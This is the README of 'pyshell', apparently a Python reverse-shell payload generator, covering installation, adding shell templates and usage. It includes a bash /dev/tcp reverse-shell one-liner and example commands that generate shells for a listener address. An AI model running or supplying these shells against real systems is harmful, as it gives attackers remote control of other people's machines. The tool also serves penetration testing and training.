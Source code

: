 # Manuel Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. cd pyshell
3. python -m venv env
4. source env/bin/activate
5. pip install -r requriements.txt
6. python pyshell.py --help
# Quick Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. cd pyshell
3. python -m venv env
4. source env/bin/activate
5. pip install .
6. pyshell --help
# Features
## Add new template shell or language
1. create your new reverse shell in the shells directory.
2. replace the ip in the script with {lhost} and then replace the port with {lport}
3. For example replace, bash -i >& /dev/tcp/127.0.0.1/8080 0>&1 with bash -i >& /dev/tcp/{lhost}/{lport} 0>&1
4. The new script will be displayed in the languages field from the help menu.
# Examples:
- python pyshell.py --help
- python pyshell.py -l bash -i 10.10.10.10 8081
- python pyshell.py -l python -I eth0 7111
![pyshell examples](./pyshell.png)
